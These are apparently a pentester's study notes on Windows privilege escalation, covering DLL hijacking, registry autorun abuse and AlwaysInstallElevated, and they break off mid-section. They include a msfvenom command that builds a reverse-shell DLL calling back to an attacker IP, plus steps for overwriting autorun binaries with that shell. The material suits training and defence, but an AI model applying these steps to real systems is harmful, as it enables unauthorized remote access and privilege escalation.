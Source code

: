 Now create a msfvenom payload for dll hijack in our linux and transfer it 

> mfsvenom -p windows/x64/shell_reverse_tcp LHOST=10.4.30.255 LPORT=6969 -f dll -o hijack.dll

Now start the service

> net start dllsvc

## Registery Privesc


.\winpeas.exe quiet applicationsinfo

### AutoRuns

 In winpeas output we will see many different registry files which autorun on startup

And it will tell us if any of that service is wriytable by us
   OR

we can manually check the writable query  by


>  reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Now we will have few files and we will manually check them by using accesschk if we can write to it

> .\accesschk.exe /accepteula -wvu "FilePath"

Now copy the orignal registry file for backup and transfer our malicous file to that location with that name 
so that poiosned file is loaded when registry is loaded
 
> copy "Registryfilepath" c:\Temp

Now overwrite the registry with our reverse shell

> copy OURfilePath "RegistryPath" /Y


In windows 10 , the user with which we restart the pc the registry is run by privelege of that user
so we will need to login as admin on rdp and then restart so the reegistry gets executed as admin


IN real life engagement we will have to wait for administrator to restart the pc




### Always Install Elevated

.\winpeas.exe quiet windowscreds


In this we usually run a msi package which is our reverse shell and this happens when the system allows
the current user to run msi files as privilged user


TO check manually: 

we need two options to be enable for this
These both need to be set  to 1 to work
